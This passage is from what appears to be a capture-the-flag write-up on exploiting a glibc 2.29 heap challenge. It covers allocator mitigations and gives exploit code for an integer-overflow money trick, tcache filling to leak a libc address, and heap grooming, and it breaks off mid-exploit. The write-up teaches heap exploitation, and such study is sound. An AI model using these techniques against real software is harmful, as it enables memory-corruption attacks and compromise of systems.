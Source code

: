 - ```calloc``` will zero the memory got from ```__int_malloc```.
### Glibc 2.29
1. Glibc2.28 disallowed **unsotedbin attack** for arbitrary address writing. So, it is not easy to overwrite ```global_max_fast``` to fuck chunks and bins of any size into the range of fastbins.
2. Glibc2.29 disallowed **house of force**.

## Exploit
### Get Enough Money
I play the trick mentioned before to get the money close to 0xffffffffffffffff for further exploiting.
```
def fuck_money(size):
    buy_house(7, size, "\x00")
    sell(7)
    log.critical(hex(check_money()))

fuck_money(0x13f69b02593f69b1)
fuck_money(0x109bb0727572e2bd)
fuck_money(0x13f2b1389a662c33)
fuck_money(0x4fcace18cee3091)
```
![](./index_files/cbaa8b6f-b60b-4c5d-af07-06a2924d0a25.jpg)
### Leak
If we want to make the address of libc appear in heap, we should make the tcache bins of our size full. It is great that **calloc** does not obtain bin from tcache bins. So, we can do buy and sell operation for more then 7 times to fill tcache bins of our size up.
```
make tcache size 0x217 full
or i in range(0, 7):
   buy_house(7, 0x217, "\x00")
   sell(7)
```
![](./index_files/329286fc-7b53-416b-8f85-46d2e05f257c.jpg)
```
buy_house(2, 0x80, "x" * 0x10)
sell(2)
buy_house(0, 0x400, "\xaa" * 0x400)
buy_house(1, 0xa0, "\xbb" * 0xa0)
buy_house(2, 0x90, "\xcc" * 0x90)
```